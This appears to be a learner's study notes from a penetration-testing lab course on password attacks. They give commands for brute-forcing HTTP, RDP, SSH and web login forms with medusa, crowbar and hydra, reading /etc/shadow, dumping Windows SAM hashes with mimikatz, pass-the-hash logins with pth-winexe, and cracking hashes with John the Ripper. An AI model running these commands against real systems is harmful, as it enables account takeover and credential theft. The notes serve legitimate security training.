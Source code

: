 # HTTP htaccess password attack with medusa

decompress the rockyou wordlist:

```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

# password Attack against Remote Desktop Protocal with crowbar

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1  
```

-n number of threads
-b protocal
-s host
-u username
-C wordlist

rdp does not reliably handle multiple threads, so we use single thread

# SSH Attack with THC-Hydra

-l target username
-P wordlist
protocal://IP

```
hydra -l kali -P test_wdlist.txt ssh://127.0.0.1
```

# HTTP post attack with THC-Hydra

obtain addtional info about http-form-post options

```
hydra http-form-post -U 

<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

request verbose output with -vV, and use -f to stop the attack when the first successful result is found.

# Retrieve Password hashes

`hashid <hashvalue>` to identify hash type

inspect /etc/shadow file

```
sudo grep root /etc/shadow
```

```
root:$6$18cMHZ.mB57eU82l$lim7jazX00mXUZEB43IOtlHmpFcuTrceOJ1QObdaGr5fwsfsEryh5xcuJEpH7qOyiOmQHcGkn33vhy66GQDAi1:18696:0:99999:7:::
```

the first of which ($6) references the SHA-512 algorithm

- $1 = MD5 hashing algorithm.
- $2 =Blowfish Algorithm is in use.
- $2a=eksblowfish Algorithm
- $5 =SHA-256 Algorithm
- $6 =SHA-512 Algorithm
    18cMHZ.mB57eU82l the salt

SAM database cannot be copied while the operating system is running because the Windows kernel keeps an exclusive file system lock on the file.

mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached.

```
C:\Tools\password_attacks\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```

token::elevate command to elevate the security token from high integrity (administrator) to SYSTEM integrity. If mimikatz is launched from a SYSTEM shell, this step is not required.

use lsadump::sam to dump the contents of the SAM database

# Passing the hash in windows

The Pass-the-Hash (PtH) technique (discovered in 1997) allows an attacker to authenticate to a
remote target by using a valid combination of username and NTLM/LM hash rather than a clear
text password. This is possible because NTLM/LM password hashes are not salted and remain
static between sessions. Moreover, if we discover a password hash on one target, we cannot only
use it to authenticate to that target, we can use it to authenticate to another target as well, as long
as that target has an account with the same username and password.

Security Accounts Manager (SAM)

To do this, we will use pth-winexe from the Passing-The-Hash toolkit (a modified version of winexe), which performs authentication using the SMB protocol

```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Question: what does "aad3b435b51404eeaad3b435b51404ee" do ? why there are two hashes?
aad3b435b51404eeaad3b435b51404ee: Empty LM HASH `<LM hash>:<NTLM hash>`

NTLM hash algorithn:

```
MD4(UTF-16-LE(password))
```

Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM
version 1 or 2 format during the authentication process. We can capture these hashes using
man-in-the-middle or poisoning attacks and either crack them or relay them

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

# Password cracking

recover clear text password from hash

```
john hash.txt --format=NT
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

## use john with linux password

```
grep victim /etc/passwd > test_pw.txt
sudo grep victim /etc/shadow > test_shadow.txt
unshadow test_pw.txt test_shadow.txt > test_unshadow.txt
john est_unshadow.txt
```

john need the unshadow format as input hash

I created a victim user, but the hash type is $y$ which can not be cracked